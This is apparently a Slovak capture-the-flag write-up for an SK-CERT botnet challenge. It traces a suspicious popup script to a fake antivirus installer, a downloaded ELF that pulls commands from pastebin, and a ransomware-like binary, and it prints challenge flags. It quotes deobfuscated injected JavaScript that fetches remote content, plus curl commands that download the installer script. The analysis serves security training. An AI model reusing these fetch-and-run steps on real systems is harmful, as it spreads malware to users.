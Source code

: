 # SK-CERT - BOTNET
>Dostali sme hlásenie že na stránke ventilsro.github.io vyskakuje podozrivé okno. Mohli by ste to skontrolovať? <br/>
Reported Difficulty: 2

## 1 Záhadné okno
>Nietorý použivatelia nám občas nahlásia vyskakovacie okno v strede obrazovky, je potrebné túto aktivitu preveriť.

Pozrieme sa na https://ventilsro.github.io/, zvyčajne prvý flag býva v page source, ale v tomto prípade nič tam nie je. Zaujímavé ale vyzerá ten javascript:

![](images/2022-03-05-14-24-18.png)

Pozrieme sa naň a máme prvý flag: `SK-CERT{c4n_y0u_f1nd_17}`

![](images/2022-03-05-14-24-31.png)

## 2 Takže pre toto!
>Keď už vieme ako funguje javascript, Musíme zistiť či náhodou neobsahuje niečo škodlivé.

Ten java script vyzerá podozrivo, pravdepodobne bol použitý nejaký obfuscator, skúsime hľadať online, napríklad tento: http://www.addressmunger.com/javascript_obfuscator/index.php
Vložíme tam náš javascript, dva krát dáme decode a máme šťastie že, Arci-Zločan použil default obfuscator.

![](images/2022-03-05-14-27-58.png)

Je aj iná cesta, brute-force debug, lebo keby Arci-Zločan použil nejaký svoj obfuscator tak by sme nemali také šťastie. Na brute-force stačí použiť Chrome dev tools, dát tam nejaký break point a skúšať čo sa udeje:

![](images/2022-03-05-14-28-19.png)

Po niekoľkých pokusoch sme odhalili náš skutočný javascript:

![](images/2022-03-05-14-28-29.png)

Javascript: 
```
function process(text){document.getElementById("data_from_int").innerHTML=text}var ad=0;if(navigator.appVersion.indexOf("Linux")){ad=Math.floor(Math.random()*50+1)}else{ad=Math.floor(Math.random()*50+51)}fetch('https://int3.sk/reklama'+ad+'.txt').then(response=>response.text()).then(text=>process(text))
```

Síce žiadny tam flag nie je, ale z kódu vidíme, že sa reklama ťahá z `'https://int3.sk/reklama'+ad+'.txt'`, kde `ad` je náhodne číslo medzi `1` a `101`, tak skúsme...Zdá sa, že Arci-Zločan chce aby sme skúsili 100 rôznych adries či sa v niektorej neukrýva ďalší flag… skúsime našu vernú zbraň: `curl https://int3.sk/reklama[1-100].txt` a máme ďalší flag: `SK-CERT{l3g17_4nt1v1ru5}`

![](images/2022-03-05-14-31-18.png)

## 3 Antivirus 3000
>Reklama, a ponúka stiahnutie antivírusu? Podozrivé! Je potrebné zistiť čo reálne stahujeme.

Z predchádzajúceho kroku vidíme, že reklama číslo 43 okrem flagu, ukrýva aj odkaz na nejaký shell script, tak sa poďme na to pozrieť: `curl http://194.182.66.53/antivirus3000_installer.sh` a máme hneď ďalší flag: `SK-CERT{1n574l_17_4lr34dy}`  

![](images/2022-03-05-14-34-56.png)

## 4 Elf
>Dostali sme ďalšie hlásenie že niekoľko použivatelov tejto stránky malo poškodený počítač, je potrebné vyšetrovať ďalej

Z predchádzajúcej úlohy vidíme, že shell script niečo stiahne z `https://rentry.co/vpvqs/raw` a uloží to ako súbor `antivirus3000`. Sťahujeme ten súbor a zisťujeme, že je to štandardná Linuxová binárka. 
```
$ file antivirus3000 
antivirus3000: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b428836a750d2fd0a3bfccf09080250e5372b0fe, for GNU/Linux 3.2.0, not stripped
```
Po spustení binárky žiadny output ale cez Wireshark vidíme, že komunikuje s `pastebin.com`, tak pustime Burp a skúsime zachytiť tú požiadavku. 

![](images/2022-04-19-11-11-32.png)

*Keďže je to https komunikácia, museli sme pridať Burp certifikát do trusted root certificate store.*

Tu vidíme Request a Response:

![](images/2022-04-19-11-12-59.png)

Stiahneme si ten `runner.tar` a vidíme tam `flag.txt`.. ktorý ale nie je pre tuto úlohu, asi bude pre jednu z ďalších.

Púšťame sa do študovania forenznej analýzy `ELF`. `Strings` nám nezistil žiadny flag, jedine že je binárka používa `curl`, čo znamená, že asi otvára nejaké sieťové spojenie niekam.
Skúšame `strace -o trace.out ./antivirus3000` ani to nám nič nehovorí.

Ďalšie hodiny som strávil s debugovaním binárky, stepovaním inštrukcií cez gdb a Ghidra, aj keď v tom moc skúsenosti nemám.
Zaujal ma kód v ktorom sa generuje url pre curl: 
```
curl_easy_setopt(local_18,0x2712,local_268);
```
![](images/2022-04-19-14-24-14.png)

Snažil som sa nejak zistiť čo obsahuje `local_286` a po hodinách `ni`, `si`, `print $rdi` a podobných vecí, ktoré len tak-tak tuším čo znamenajú sa mi podarilo dostepovať pred call tej funkcie, kde som si pozrel obsah pamäte na `[RBP + -0x260]`
![](images/2022-04-19-14-29-03.png)

a zobrazením obsahu pamäte som získal známy string, ktorý bol akceptovaný!

![](images/2022-04-19-14-31-07.png)

```
flag: SK-CERT{p45t3b1n_15_hug3}
```

P.S. mohol som toto vyriešiť aj skôr, keby som si uvedomil, že 
```
5555555555a5 88 94 05        MOV        byte ptr [RBP + RAX*0x1 + -0x260],DL
             a0 fd ff ff

```
je to vlastne adresa pre `local_268[int(conter)]`, nie pre cely string `local_268`. Ja som sledoval obsah pamäti pomocou `x/s $rbp+$rax*0x1-0x260` a neuvedomil som si, že pozerám iba posledný byte:

```
 (gdb)x/s $rbp+$rax*0x1-0x260
0x7fffffffdcbb: "4"
 (gdb)x/s $rbp-0x260
0x7fffffffdc90: "https://pastebin.com/raw/9gQzJk4j#SK-CERT{p4"
```

## 5 Vykonané príkazy
>Zistili ste, že program spúšťa príkazy z pastebin. Teraz treba zistiť aké konkrétne.

Tu som použil flag, ktorý som získal na začiatku predchádzajúcej úlohy, kde som odchytil komunikáciu s pastebin a stiahol `runner.tar`, ktorý obsahoval `flag.txt`

```
flag: SK-CERT{4n0th3r_f1lthy_3lf}
```

## 6 Ďalšia binárka
>Ďalší binárny súbor? Pustite sa do analýzy

Po spustení `./runner` sa nič nedeje... niet divu. Otvárame `runner` v Ghidre a pozeráme `main` funkciu:

![](images/2022-04-19-16-07-10.png)

Podlá analýzy main, kód otvára aktuálny adresár, a ak sa tam nachádza adresár menom "dRIA2HpoQrC24jEoww4m" tak ho zašifruje. 
Vyskúšame vytvoriť adresár `dRIA2HpoQrC24jEoww4m` a spustiť `./runner`:

![](images/2022-04-19-16-18-31.png)

Takže, takto sa dostaneme ďalej do `encrypt_file` funkcie, ktorá podlá analýzy nerobí nič zaujímavé sama o sebe, otvára adresár, číta meno adresára a vola ďalšiu funkciu `encrypt`, ktorá už vyzerá zaujímavo, najmä `for` loop ktorý vyzerá podozrivo, ako z predošlých úloh kde sa generuje flag:

![](images/2022-04-19-16-27-23.png)

Skúšame krokovať cez `gdb`, nastavíme break point najprv na `main`, potom na `envrypt_file` a nakoniec sa dostaneme do `encrypt` a krokujeme do toho `for` loopu, a tento krát využijeme príkaz na vykonanie viac krokov naraz:

````
python [gdb.execute('ni') for x in range(12)]
````
Po niekoľkých opakovaní úspešne získavame ďalší flag:

![](images/2022-04-19-16-09-26.png)

```
flag: SK-CERT{th3_k3y}
```

## 7 Dekryptor
>Z analýzy sme zistili že sa jedná o ransomvér a klúč je pevne zakódovaný v zdrojovom kóde. Je potrebné napísať dekryptor a dekryptovať následovné súbory: https://drive.google.com/file/d/1Iv_Bl3yI8Pncd5iq3xaGdqnaScVwTO3Q/view?usp=sharing

Tak toto už si netrúfam...možno nabudúce.

